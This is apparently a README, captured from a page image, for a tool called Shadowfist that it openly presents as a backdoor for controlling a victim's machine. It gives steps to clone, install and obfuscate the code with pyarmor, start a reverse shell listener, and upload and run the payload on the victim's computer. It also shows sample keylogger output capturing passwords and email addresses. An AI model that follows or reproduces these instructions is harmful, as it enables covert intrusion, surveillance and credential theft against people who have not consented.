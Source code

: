 





# Shadowfist

This is an advanced backdoor tool that allows you to remotely access and control a victim's machine. It includes several advanced features, such as a reverse shell and a keylogger.

## Installation

To install the tool, follow these steps:

1. Clone the repository:
```bash
git clone <https://github.com/blackhackwit/advanced-backdoor>
Install the required dependencies:
pip install -r requirements.txt
Compile the code using pyarmor:
pyarmor obfuscate __main__.py
Usage
To use the tool, follow these steps:
Start the reverse shell listener on your machine:
python reverse_shell.py
Upload the compiled code to the victim's machine and run it:
python shadowfist.py
The reverse shell will connect to your machine, allowing you to remotely execute commands and transfer files:
$ ls
Desktop Documents Downloads Music Pictures Public Templates Videos
The keylogger will start recording the victim's keystrokes:
[Keylogger] Started recording keystrokes
[Keylogger] Password: mypassword123
[Keylogger] Email: me@example.com
[Keylogger] Gmail: mygmail@gmail.com
Screenshots
Here are some screenshots that show the tool in action:
Installing dependecies
Compiling code with pyarmor
Starting the reverse shell listener
Reverse shell connection
Keylogger output
